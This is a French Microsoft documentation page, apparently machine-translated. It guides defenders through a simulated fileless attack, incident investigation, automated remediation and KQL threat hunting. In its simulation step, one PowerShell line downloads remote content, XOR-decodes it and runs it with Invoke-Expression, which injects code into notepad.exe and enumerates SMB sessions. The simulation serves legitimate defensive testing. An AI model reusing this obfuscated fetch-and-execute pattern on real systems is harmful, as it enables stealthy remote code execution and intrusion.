

# <a name="run-your-microsoft-threat-protection-attack-simulations"></a>Exécuter vos simulations d’attaque de la protection contre les menaces Microsoft  

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]


**S’applique à :**
- Protection Microsoft contre les menaces
<br>
<table border="0" width="100%" align="center">
  <tr style="text-align:center;">
    <td align="center" style="width:25%; border:0;" >
      <a href= "https://docs.microsoft.com/microsoft-365/security/mtp/mtp-pilot-plan"> 
        
      <br/>Coplanaires </a><br>
    </td>
    <td align="center">
      <a href="https://docs.microsoft.com/microsoft-365/security/mtp/prepare-mtpeval">
        
      <br/>Instructions </a><br>
    </td>
    <td align="center"bgcolor="#d5f5e3">
      <a href="https://docs.microsoft.com/microsoft-365/security/mtp/mtp-pilot-simulate">
        
      <br/>Simuler une attaque </a><br>
    </td>
    <td align="center">
      <a href="https://docs.microsoft.com/microsoft-365/security/mtp/mtp-pilot-close">
        
      <br/>Fermer et résumer </a><br>
    </td>
  </tr>
  <tr>
    <td style="width:25%; border:0;">
   
    </td>
    <td valign="top" style="width:25%; border:0;">
    
</td>
    <td valign="top" style="width:25%; border:0;">

</td>    
    <td valign="top" style="width:25%; border:0;">

</td>
  </tr>
</table>

Vous êtes actuellement en phase de simulation d’attaque.

Après avoir préparé votre environnement pilote, il est temps de tester la gestion des incidents de Microsoft Threat Protection, ainsi que les fonctionnalités d’analyse et de correction automatisées. Nous vous aiderons à simuler une attaque sophistiquée qui exploite des techniques avancées pour masquer la détection. L’attaque énumère les sessions SMB (Server Message Block) ouvertes sur les contrôleurs de domaine et récupère les adresses IP récentes des appareils des utilisateurs. En règle générale, cette catégorie d’attaques n’inclut pas les fichiers ignorés sur le périphérique de la victime : elle se produit uniquement en mémoire. Ils « vivent en permanence » à l’aide d’outils système et d’administration existants et injectent leur code dans les processus système pour masquer leur exécution, ce qui leur permet d’échapper à la détection et de persister sur l’appareil.

Dans cette simulation, notre exemple de scénario commence par un script PowerShell. Un utilisateur peut être amené à exécuter un script. Ou le script peut s’exécuter à partir d’une connexion distante à un autre ordinateur à partir d’un appareil précédemment infecté, qui tente de se déplacer par la suite sur le réseau. La détection de ces scripts peut être difficile, car les administrateurs exécutent souvent des scripts à distance pour effectuer diverses activités d’administration.


Pendant la simulation, l’attaque injecte shellcode dans un processus apparemment innocent. Dans ce scénario, nous allons utiliser notepad.exe. Nous avons choisi ce processus pour la simulation, mais les agresseurs seront plus susceptibles de cibler un processus système de longue durée, comme svchost.exe. Le shellcode se connecte ensuite pour contacter le serveur de commandes et de contrôle de l’agresseur (C2) afin de recevoir des instructions sur la procédure à suivre. En outre, le script tente d’exécuter des requêtes de recherche sur le contrôleur de domaine. Cela permet à un agresseur d’obtenir des informations sur les informations de connexion de l’utilisateur récentes. Une fois que les attaquants disposent de ces informations, ils peuvent se déplacer par la suite sur le réseau pour accéder à un compte sensible spécifique.

>[!IMPORTANT]
>Pour obtenir des résultats optimaux, suivez les instructions de la simulation d’attaque aussi étroitement que possible.


## <a name="simulation-environment-requirements"></a>Configuration requise pour l’environnement de simulation

Étant donné que vous avez déjà configuré votre environnement pilote pendant la phase de préparation, vérifiez que vous disposez de deux appareils pour ce scénario : un périphérique de test et un contrôleur de domaine.

1.  Vérifiez que votre client a [activé Microsoft Threat Protection contre les menaces](https://docs.microsoft.com/microsoft-365/security/mtp/mtp-enable#starting-the-service)Microsoft.
2.  Vérifiez la configuration de votre contrôleur de domaine :
    - Le périphérique s’exécute avec Windows Server 2008 R2 ou une version ultérieure.
    - Test du contrôleur de domaine dans [Azure Advanced Threat Protection](https://docs.microsoft.com/azure/security-center/security-center-wdatp) et activation de la [gestion à distance](https://docs.microsoft.com/windows-server/administration/server-manager/configure-remote-management-in-server-manager).    
    - Vérifiez que [Azure ATP et l’intégration de la sécurité de Microsoft Cloud App](https://docs.microsoft.com/cloud-app-security/aatp-integration) ont été activés.
    - Un utilisateur test est créé sur votre domaine – aucune autorisation d’administrateur n’est nécessaire.

3.  Vérifiez la configuration du périphérique de test :
    <br>
    a.  Le périphérique s’exécute avec Windows 10 version 1903 ou une version ultérieure.
    <br>
    b.  Le périphérique de test est joint au domaine de test.
    <br>
    c.  [Activez l’antivirus Windows Defender](https://docs.microsoft.com/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features). Si vous rencontrez des problèmes pour activer l’antivirus Windows Defender, consultez cette [rubrique de résolution des problèmes](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy).
    <br>
    d.  Vérifiez que le périphérique de test est [intégré à Microsoft Defender Advanced Threat Protection (MDATP)](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).

Si vous utilisez un client existant et implémentez des groupes d’appareils, créez un groupe de périphériques dédié pour le périphérique de test et faites-le glisser vers le niveau supérieur dans l’expérience utilisateur de configuration.


## <a name="run-the-simulation"></a>Exécuter la simulation

Pour exécuter la simulation de scénario d’attaque :

1.  Connectez-vous au périphérique de test à l’aide du compte d’utilisateur test.

2.  Ouvrez une fenêtre Windows PowerShell sur le périphérique de test.

3.  Copiez le script de simulation suivant :
```
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
= [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
-UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
$decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
$i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
```
>[!NOTE]
>Si vous ouvrez ce document dans un navigateur Web, vous pouvez rencontrer des problèmes lors de la copie du texte intégral sans perdre certains caractères ou introduire des sauts de ligne supplémentaires. Téléchargez ce document et ouvrez-le sur Adobe Reader.

4. À l’invite, collez et exécutez le script copié.

>[!NOTE]
>Si vous exécutez PowerShell à l’aide du protocole RDP (Remote Desktop Protocol), utilisez la commande type de texte du presse-papiers dans le client RDP car la touche **Ctrl-V** ou la méthode de collage par clic droit peut ne pas fonctionner.  Les versions récentes de PowerShell n’acceptent pas non plus cette méthode, il se peut que vous deviez d’abord copier le bloc-notes dans la mémoire, le copier dans l’ordinateur virtuel, puis le coller dans PowerShell.

Quelques secondes plus tard, <i>notepad.exe</i> s’ouvre. Un code d’attaque simulé est injecté dans notepad.exe. Laissez l’instance du bloc-notes générée automatiquement ouverte pour découvrir le scénario complet.

Le code d’attaque simulé tente de communiquer avec une adresse IP externe (simulant le serveur C2), puis d’effectuer des tentatives de reconnaissance par rapport au contrôleur de domaine via SMB.

Une fois le script terminé, un message s’affiche dans la console PowerShell.

```
ran NetSessionEnum against [DC Name] with return code result 0      
```

Pour afficher la fonctionnalité automatisée incident et réponse en action, laissez le processus notepad.exe ouvert. Vous verrez un incident et une réponse automatisés arrêter le processus Notepad.


## <a name="investigate-an-incident"></a>Examiner un incident

>[!NOTE]
>Avant d’aborder cette simulation, regardez la vidéo suivante pour voir comment la gestion des incidents vous permet de rassembler les alertes associées dans le cadre du processus d’enquête, où vous pouvez la trouver dans le portail et comment elle peut vous aider dans vos opérations de sécurité :

>[!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bzwz?]

En passant au point de vue de l’analyste SOC, vous pouvez commencer à étudier l’attaque dans le portail du centre de sécurité Microsoft 365. 

1.  Ouvrez la file d’attente des incidents du [portail du centre de sécurité Microsoft 365](https://security.microsoft.com/incidents) à partir de n’importe quel appareil.

2.  Accédez à **incidents** à partir du menu. 

    

3.  Le nouvel incident pour l’attaque simulée apparaît dans la file d’attente des incidents.
 
    


### <a name="investigate-the-attack-as-a-single-incident"></a>Analyser l’attaque comme un incident unique

La protection contre les menaces Microsoft met en corrélation les analyses et rassemble toutes les alertes et les analyses associées de différents produits en une seule entité incident. De cette manière, Microsoft Threat Protection affiche un récit d’attaque plus large, ce qui permet à l’analyste SOC de comprendre et de répondre aux menaces complexes.

Les alertes générées pendant cette simulation sont associées à la même menace et, par conséquent, sont automatiquement regroupées comme un seul incident.

Pour afficher l’incident :

1.  Accédez à la file d’attente **incidents** .
 
    

2.  Sélectionnez l’élément le plus récent en cliquant sur le cercle situé à gauche du nom de l’incident. Un volet latéral affiche des informations supplémentaires sur l’incident, y compris toutes les alertes associées. Chaque incident a un nom unique qui le décrit en fonction des attributs des alertes qu’il comprend.

    

    Les alertes qui s’affichent dans le tableau de bord peuvent être filtrées en fonction des ressources de service : Azure ATP, sécurité des applications Cloud Microsoft, Microsoft Defender ATP, Microsoft Threat Protection et Office ATP.  

3.  Sélectionnez **ouvrir la page incident** pour obtenir plus d’informations sur l’incident.

    Dans la page **incident** , vous pouvez voir toutes les alertes et les informations relatives à l’incident. Cela inclut les entités et les biens impliqués dans l’alerte, la source de détection des alertes (Azure ATP, EDR) et la raison pour laquelle elles ont été associées. L’examen de la liste des alertes incident indique la progression de l’attaque. À partir de cette vue, vous pouvez voir et examiner les alertes individuelles.

    Vous pouvez également cliquer sur **gérer l’incident** dans le menu de droite, pour baliser l’incident, l’attribuer à vous-même et ajouter des commentaires.

    

    


### <a name="review-generated-alerts"></a>Examiner les alertes générées 

Examinons certaines des alertes générées lors de l’attaque simulée.

>[!NOTE]
>Nous allons passer en revue quelques-unes des alertes générées lors de l’attaque simulée. En fonction de la version de Windows et des produits de protection contre les menaces Microsoft qui s’exécutent sur votre périphérique de test, vous pouvez voir d’autres alertes qui apparaissent dans un ordre légèrement différent.

 


**Alerte : l’injection de processus suspects a été observée (source : Microsoft Defender ATP EDR)**

Les attaquants avancés utilisent des méthodes sophistiquées et Stealthy pour persister en mémoire et masquer à partir des outils de détection. Une technique courante consiste à opérer à partir d’un processus système approuvé plutôt que d’un exécutable malveillant, ce qui rend difficile les outils de détection et les opérations de sécurité pour détecter le code malveillant.

Pour permettre aux analystes SOC d’intercepter ces attaques avancées, les capteurs de mémoire approfondie de Microsoft Defender ATP fournissent à notre service Cloud une visibilité sans précédent dans diverses techniques d’injection de code interprocessus. La figure suivante montre comment Microsoft Defender ATP a été détecté et alerté lors de la tentative d’insertion de code dans <i>notepad.exe</i>.

 


**Alerte : comportement inattendu observé par un processus exécuté sans argument de ligne de commande (source : Microsoft Defender ATP EDR)**

Les détections de Microsoft Defender ATP visent souvent l’attribut le plus courant d’une technique d’attaque. Cela garantit une durabilité et une augmentation de la barre permettant aux attaquants de passer à des tactiques plus récentes.

Nous utilisons des algorithmes d’apprentissage à grande échelle pour établir le comportement normal des processus courants au sein d’une organisation et à travers le monde et surveiller quand ces processus présentent des comportements anormaux. Ces comportements anormaux indiquent souvent que du code superflu a été introduit et est exécuté dans un processus autrement approuvé.

Dans ce scénario, le processus <i>notepad.exe</i> présente un comportement anormal, impliquant la communication avec un emplacement externe. Ce résultat est indépendant de la méthode spécifique utilisée pour introduire et exécuter le code malveillant.

>[!NOTE]
>Étant donné que cette alerte est basée sur des modèles d’apprentissage qui nécessitent un traitement principal supplémentaire, l’affichage de cette alerte dans le portail peut prendre un certain temps.

Notez que les détails de l’alerte incluent l’adresse IP externe, un indicateur que vous pouvez utiliser comme tableau croisé dynamique pour développer l’enquête.

Cliquez sur l’adresse IP dans l’arborescence du processus d’alerte pour afficher la page Détails de l’adresse IP.

 

La figure suivante affiche la page de détails de l’adresse IP sélectionnée (cliquez sur adresse IP dans l’arborescence du processus d’alerte).


**Alerte : utilisateur et recherche d’adresses IP (SMB) (source : Azure ATP)**

L’énumération utilisant le protocole SMB (Server Message Block) permet aux attaquants d’obtenir des informations récentes de connexion des utilisateurs qui les aident à se déplacer par la suite via le réseau pour accéder à un compte sensible spécifique.

Dans ce cas, une alerte est déclenchée lorsque l’énumération de session SMB est exécutée sur un contrôleur de domaine.

 


### <a name="review-the-device-timeline-microsoft-defender-atp"></a>Examiner la chronologie de l’appareil [Microsoft Defender ATP]
Après avoir exploré les différentes alertes dans cet incident, revenez à la page d’incident que vous avez examinée précédemment. Cliquez sur l’onglet **appareils** de la page incident pour examiner les périphériques impliqués dans cet incident, comme indiqué par Microsoft Defender ATP et Azure ATP.

Cliquez sur le nom du périphérique sur lequel l’attaque a été menée afin d’ouvrir la page de l’entité pour cet appareil spécifique. Dans cette page, vous pouvez voir les alertes déclenchées et les événements associés.

Cliquez sur l’onglet **chronologie** pour ouvrir la chronologie de l’appareil et afficher tous les événements et comportements observés sur l’appareil dans l’ordre chronologique, en parsemés avec les alertes générées.

 

Le développement d’une partie des comportements les plus intéressants fournit des informations utiles, telles que des arbres de processus.

Par exemple, faites défiler vers le bas jusqu’à ce que vous trouviez l' **injection de processus suspecte d’alerte observée**. Cliquez sur le **powershell.exe injecté pour notepad.exe** événement de processus ci-dessous, afin d’afficher l’arborescence de processus complète pour ce comportement sous le graphique des **entités d’événement** dans le volet latéral. Si nécessaire, utilisez la barre de recherche pour le filtrage.


### <a name="review-the-user-information-microsoft-cloud-app-security"></a>Consulter les informations utilisateur [sécurité des applications Cloud Microsoft]

Sur la page incident, cliquez sur l’onglet **utilisateurs** pour afficher la liste des utilisateurs impliqués dans l’attaque. Le tableau contient des informations supplémentaires sur chaque utilisateur, y compris le score de **priorité** de chaque utilisateur.

Cliquez sur le nom d’utilisateur pour ouvrir la page de profil de l’utilisateur dans laquelle il est possible d’effectuer des recherches plus approfondies. [En savoir plus sur l’examen des utilisateurs à risque](https://docs.microsoft.com/cloud-app-security/tutorial-ueba#identify).
<br>


## <a name="automated-investigation-and-remediation"></a>Investigation et résolution automatiques
>[!NOTE]
>Avant d’aborder cette simulation, regardez la vidéo suivante pour vous familiariser avec ce qu’est la réparation automatique automatique, où la trouver dans le portail et comment elle peut vous aider dans vos opérations de sécurité :

>[!VIDEO https://www.microsoft.com/en-us/videoplayer/embed/RE4BzwB]

Revenez à l’incident dans le portail du centre de sécurité Microsoft 365. L’onglet **enquêtes** de la page **incident** indique les analyses automatiques déclenchées par Azure ATP et Microsoft Defender ATP. La capture d’écran ci-dessous affiche uniquement l’enquête automatisée déclenchée par Microsoft Defender ATP. Par défaut, Microsoft Defender ATP corrige automatiquement les artefacts détectés dans la file d’attente, ce qui nécessite une correction.


Cliquez sur l’alerte qui a déclenché une enquête pour ouvrir la page des détails de l' **enquête** . Vous verrez ce qui suit :
- Alerte (s) ayant déclenché l’enquête automatisée.
- Utilisateurs et appareils affectés. Si des indicateurs sont trouvés sur des appareils supplémentaires, ces périphériques supplémentaires seront également répertoriés.
- Liste de preuves. Entités trouvées et analysées, telles que des fichiers, des processus, des services, des pilotes et des adresses réseau. Ces entités sont analysées pour les relations possibles avec l’alerte et classées comme bénignes ou malveillantes.
- Menaces détectées. Menaces connues détectées lors de l’enquête.

>[!NOTE]
>En fonction de la temporisation, l’analyse automatisée peut toujours être en cours d’exécution. Patientez quelques minutes avant que le processus se termine avant de collecter et d’analyser les preuves et de passer en revue les résultats. Actualisez la page des détails de l' **enquête** pour obtenir les dernières conclusions.


Lors de l’analyse automatisée, Microsoft Defender ATP a identifié le processus d' notepad.exe, qui a été injecté sous la forme d’un des artefacts qui nécessitent une correction. Microsoft Defender ATP arrête automatiquement l’injection de processus suspect dans le cadre de la correction automatisée. 

Vous pouvez voir <i>notepad.exe</i> disparaissent de la liste des processus en cours d’exécution sur le périphérique de test.

## <a name="resolve-the-incident"></a>Résoudre l’incident

Une fois l’enquête terminée et confirmée pour être résolue, fermez l’incident.

Cliquez sur **gérer l’incident**. Définissez l’État pour **résoudre l’incident** et sélectionnez la classification appropriée.

Une fois l’incident résolu, il ferme toutes les alertes associées dans le centre de sécurité Microsoft 365 et dans les portails associés.

 

<br>
Cela inclut la simulation d’attaque pour la gestion des incidents et des scénarios d’enquête et de correction automatisés. La prochaine simulation vous permettra d’effectuer une chasse aux fichiers potentiellement malveillants. 

## <a name="advanced-hunting-scenario"></a>Scénario de chasse avancé

>[!NOTE]
>Avant de vous guider tout au long de la simulation, regardez la vidéo suivante pour comprendre les concepts avancés de la chasse, reportez-vous à la rubrique où se trouve le portail et découvrez comment il peut vous aider dans vos opérations de sécurité :

>[!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bp7O]

### <a name="hunting-environment-requirements"></a>Conditions requises pour l’environnement de la chasse
Il existe une seule boîte aux lettres interne et un seul périphérique requis pour ce scénario. Vous aurez également besoin d’un compte de messagerie externe pour envoyer le message de test.

1.  Vérifiez que votre client a [activé la protection contre les menaces Microsoft](https://docs.microsoft.com/microsoft-365/security/mtp/mtp-enable#starting-the-service).
2.  Identifiez une boîte aux lettres cible à utiliser pour la réception du courrier électronique.
    a.  Cette boîte aux lettres doit être surveillée par Office 365 ATP b.  L’appareil de la condition 3 requise doit accéder à cette boîte aux lettres.
3.  Configurez un périphérique de test : a.  Assurez-vous que vous utilisez Windows 10 version 1903 ou une version ultérieure.
    b.  Joignez le périphérique de test au domaine de test.
    c.  [Activez l’antivirus Windows Defender](https://docs.microsoft.com/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features). Si vous rencontrez des problèmes pour activer l’antivirus Windows Defender, consultez [cette rubrique de résolution des problèmes](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy).
    d.  [Intégration à Microsoft Defender-protection avancée contre les menaces (MDATP)](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).

### <a name="run-the-simulation"></a>Exécuter la simulation
1.  À partir d’un compte de messagerie externe, envoyez un message électronique à la boîte aux lettres identifiée à l’étape 2 de la section Configuration de l’environnement de test. Inclure une pièce jointe qui sera autorisée via les stratégies de filtrage du courrier électronique existantes.  Il n’est pas nécessaire qu’il s’agit d’un fichier malveillant ou d’un exécutable. Les types de fichiers suggérés sont <i>. pdf</i>, <i>. exe</i> (si autorisé) ou document Office tel qu’un fichier Word.
2.  Ouvrez le courrier électronique envoyé à partir de l’appareil configuré comme défini à l’étape 3 de la section Configuration de l’environnement de test. Ouvrez la pièce jointe ou enregistrez le fichier sur l’appareil.


**Trouver la chasse**
1.  Ouvrez le portail security.microsoft.com.
2.  Naviguez jusqu’à la **chasse > la chasse avancée**.

     

3.  Créer une requête qui commence par collecter des événements de messagerie.
    a.  Dans le volet requête, sélectionnez Nouveau.
    b.  Double-cliquez sur la table EmailEvents dans le schéma.

```
EmailEvents 
```                                        

   c.   Définissez le délai sur les dernières 24 heures. En supposant que le courrier électronique que vous avez envoyé lors de l’exécution de la simulation ci-dessus était au cours des dernières 24 heures, sinon, modifiez le délai.
    


   d.   Exécutez la requête.  Vous pouvez avoir un grand nombre de résultats en fonction de l’environnement du pilote.  

>[!NOTE]
>Pour limiter le nombre de données, consultez l’étape suivante pour les options de filtrage.

    

>[!NOTE]
>La chasse avancée affiche les résultats de la requête sous forme de données tabulaires. Vous pouvez également choisir d’afficher les données dans d’autres types de formats, tels que des graphiques.    

   e.   Examinez les résultats et vérifiez si vous pouvez identifier le courrier électronique que vous avez ouvert.  Le message peut prendre jusqu’à 2 heures pour apparaître dans la chasse avancée. Si l’environnement de messagerie est volumineux et qu’il existe de nombreux résultats, vous pouvez utiliser l' **option Afficher les filtres** pour rechercher le message. 

   Dans l’exemple, le courrier électronique a été envoyé à partir d’un compte Yahoo. Cliquez sur l' **+** icône située en regard de **yahoo.com** sous la section SenderFromDomain, puis cliquez sur **appliquer** pour ajouter le domaine sélectionné à la requête.  Vous devez utiliser le domaine ou le compte de messagerie qui a été utilisé pour envoyer le message de test à l’étape 1 de l’exécution de la simulation pour filtrer vos résultats.  Exécutez à nouveau la requête pour obtenir un jeu de résultats plus petit afin de vérifier que le message a été affiché à partir de la simulation.
   
    


```
EmailEvents 
| where SenderMailFromDomain == "yahoo.com"
```

   f.   Cliquez sur les lignes résultantes à partir de la requête afin de pouvoir inspecter l’enregistrement.
    


4.  Maintenant que vous avez vérifié que vous pouvez voir le message, ajoutez un filtre pour les pièces jointes. Concentrez-vous sur tous les messages électroniques contenant des pièces jointes dans l’environnement. Pour ce scénario, concentrez-vous sur les messages électroniques entrants, et non sur ceux qui sont envoyés à partir de votre environnement. Supprimez tous les filtres que vous avez ajoutés pour localiser votre message et ajouter «| où **AttachmentCount > 0** et **EmailDirection**«  ==  **entrant** »

La requête suivante vous indique le résultat avec une liste plus courte que votre requête initiale pour tous les événements de messagerie :

```
EmailEvents 
| where AttachmentCount > 0 and EmailDirection == "Inbound"

```

5.  Ensuite, incluez les informations relatives à la pièce jointe (par exemple, le nom de fichier, les hachages) à votre jeu de résultats. Pour ce faire, rejoignez la table **EmailAttachmentInfo** . Les champs communs à utiliser pour la jointure, dans ce cas, sont **NetworkMessageId** et **RecipientObjectId**.

La requête suivante inclut également une ligne supplémentaire «| **Project-Rename EmailTimestamp = timestamp**"qui permettra d’identifier l’horodatage associé à la messagerie par rapport aux estampilles associées aux actions de fichiers que vous ajouterez lors de l’étape suivante.

```
EmailEvents 
| where AttachmentCount > 0 and EmailDirection == "Inbound"
| project-rename EmailTimestamp=Timestamp 
| join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
```

6.  Ensuite, utilisez la valeur **SHA256** de la table **EmailAttachmentInfo** pour rechercher **DeviceFileEvents** (actions de fichier qui se sont produites sur le point de terminaison) pour ce hachage.  Le champ courant ici est le hachage SHA256 de la pièce jointe.

Le tableau résultant inclut maintenant des détails du point de terminaison (Microsoft Defender ATP) tels que le nom de l’appareil, l’action effectuée (dans ce cas, filtrée pour inclure uniquement les événements FileCreated), ainsi que l’emplacement de stockage du fichier. Le nom de compte associé au processus est également inclus.

```
EmailEvents 
| where AttachmentCount > 0 and EmailDirection == "Inbound"
| project-rename EmailTimestamp=Timestamp 
| join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId 
| join DeviceFileEvents on SHA256 
| where ActionType == "FileCreated"
```

Vous avez maintenant créé une requête qui identifiera tous les messages électroniques entrants dans lesquels l’utilisateur a ouvert ou enregistré la pièce jointe. Vous pouvez également affiner cette requête pour filtrer des domaines d’expéditeurs spécifiques, des tailles de fichiers, des types de fichiers, etc.

7.  Les fonctions sont un type de participation spéciale qui vous permet d’extraire plus de données TI sur un fichier, telles que sa prévalence, son signataire et ses informations d’émetteur, etc.  Pour obtenir plus de détails sur le fichier, utilisez l’enrichissement de la fonction **FileProfile ()** :

```
EmailEvents 
| where AttachmentCount > 0 and EmailDirection == "Inbound"
| project-rename EmailTimestamp=Timestamp 
| join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
| join DeviceFileEvents on SHA256 
| where ActionType == "FileCreated"
| distinct SHA1
| invoke FileProfile()
```


**Créer une détection**

Une fois que vous avez créé une requête qui identifie les informations dont vous souhaitez être **alerté** si elles se produisent à l’avenir, vous pouvez créer une détection personnalisée à partir de la requête. 

Les détections personnalisées exécuteront la requête en fonction de la fréquence que vous avez définie et les résultats des requêtes créeront des alertes de sécurité, en fonction des ressources affectées que vous avez choisies. Ces alertes seront corrélées aux incidents et peuvent être triées comme toute autre alerte de sécurité générée par l’un des produits.

1.  Sur la page de requête, supprimez les lignes 7 et 8 ajoutées à l’étape 7 des instructions de recherche de déplacement, puis cliquez sur **créer une règle de détection**. 
    
     

>[!NOTE]
>Si vous cliquez sur **créer une règle de détection** et que vous avez des erreurs de syntaxe dans votre requête, votre règle de détection n’est pas enregistrée. Vérifiez votre requête pour vous assurer qu’il n’y a pas d’erreurs. 


2.  Renseignez les champs obligatoires avec les informations qui permettront à l’équipe de sécurité de comprendre l’alerte, la raison pour laquelle elle a été générée et les actions que vous attendez. 

    

Assurez-vous de renseigner les champs avec clarté pour permettre à l’utilisateur suivant de prendre une décision informée sur cette alerte de règle de détection. 

3.  Sélectionnez les entités concernées par cette alerte. Dans ce cas, sélectionnez **appareil** et **boîte aux lettres**.

    
 

4.  Déterminez les actions qui doivent avoir lieu si l’alerte est déclenchée. Dans ce cas, exécutez une analyse antivirus, même si d’autres actions ont pu être menées. 

     

5.  Sélectionnez l’étendue de la règle d’alerte. Dans la mesure où cette requête implique des périphériques, les groupes d’appareils sont pertinents dans cette détection personnalisée conformément au contexte de Microsoft Defender ATP.  Lors de la création d’une détection personnalisée qui n’inclut pas d’appareils en tant qu’entités affectées, l’étendue ne s’applique pas.  

     

Pour ce projet pilote, vous pouvez limiter cette règle à un sous-ensemble de périphériques de test dans votre environnement de production.

6.  Sélectionnez **Créer**. Ensuite, sélectionnez **règles de détection personnalisées** dans le panneau de navigation.
 
     

     

À partir de cette page, vous pouvez sélectionner la règle de détection qui ouvrira une page de détails. 

 

### <a name="additional-advanced-hunting-walk-through-exercises"></a>Exercices supplémentaires de la chasse à la chasse

Pour en savoir plus sur la chasse avancée, les présentations techniques en ligne suivantes vous guideront tout au long des fonctionnalités de la recherche avancée dans Microsoft Threat Protection (MTP) pour créer des requêtes à plusieurs piliers, les faire pivoter vers des entités et créer des détections personnalisées et des actions correctives.

>[!NOTE]
>Préparez-vous avec votre propre compte GitHub pour exécuter les requêtes de chasse dans votre environnement de laboratoire de test pilote.  

| **Titre** | **Description** | **Télécharger MP4** | **Regarder sur YouTube** | **Fichier CSL à utiliser** |
|:-----|:-----|:-----|:-----|:-----|
| Épisode 1 : notions de base de KQL | Nous allons aborder les notions de base des fonctionnalités de chasse avancées dans la protection contre les menaces Microsoft. Découvrez les données de chasse avancées et les opérateurs et la syntaxe de KQL de base. | [ MP4](https://aka.ms/MTP15JUL20_MP4) | [YouTube](https://youtu.be/0D9TkGjeJwM) | [Épisode 1 : fichier CSL dans Git](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%201%20-%20KQL%20Fundamentals.csl) |
| Épisode 2 : jointures | Nous continuerons à étudier les données dans la chasse avancée et à rejoindre les tables ensemble. Découvrez les Kusto internes, externes, uniques et semi-jointures, ainsi que les nuances de la jointure innerunique par défaut. | [MP4](https://aka.ms/MTP22JUL20_MP4) | [YouTube](https://youtu.be/LMrO6K5TWOU) | [Épisode 2 : fichier CSL dans Git](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%202%20-%20Joins.csl) |
| Épisode 3 : résumé, glissement et visualisation des données|Maintenant que nous pouvons filtrer, manipuler et joindre des données, il est temps de commencer à résumer, quantifier, faire pivoter et visualiser. Dans cet épisode, nous allons aborder l’opérateur de synthèse et certains des calculs que vous pouvez effectuer lors de la plongée dans des tableaux supplémentaires dans le schéma de chasse avancé. Nous transformerons nos jeux de données en graphiques qui peuvent aider à améliorer l’analyse. | [MP4](https://aka.ms/MTP29JUL20_MP4) | [YouTube](https://youtu.be/UKnk9U1NH6Y) | [Épisode 3 : fichier CSL dans Git](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%203%20-%20Summarizing%2C%20Pivoting%2C%20and%20Joining.csl) |
| Épisode 4 : allons-nous ! Application de KQL au suivi des incidents|Temps nécessaire pour effectuer le suivi de certaines activités d’agresseurs ! Dans cet épisode, nous allons utiliser notre compréhension améliorée de KQL et de la recherche avancée dans Microsoft Threat Protection pour suivre une attaque. Découvrez les trucs et astuces utilisés dans le champ pour suivre les activités des agresseurs, notamment les éléments de la Cybersecurity et la façon de les appliquer à la réponse aux incidents. | [MP4](https://aka.ms/MTP5AUG20_MP4) | [YouTube](https://youtu.be/2EUxOc_LNd8) | [Épisode 4 : fichier CSL dans Git](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%204%20-%20Lets%20Hunt.csl) |

## <a name="next-step"></a>Étape suivante
| <br>[Phase de clôture et de synthèse](mtp-pilot-close.md) | Analysez votre résultat pilote de protection contre les menaces Microsoft, présentez-les à vos parties prenantes et effectuez l’étape suivante.
|:-----|:-----|

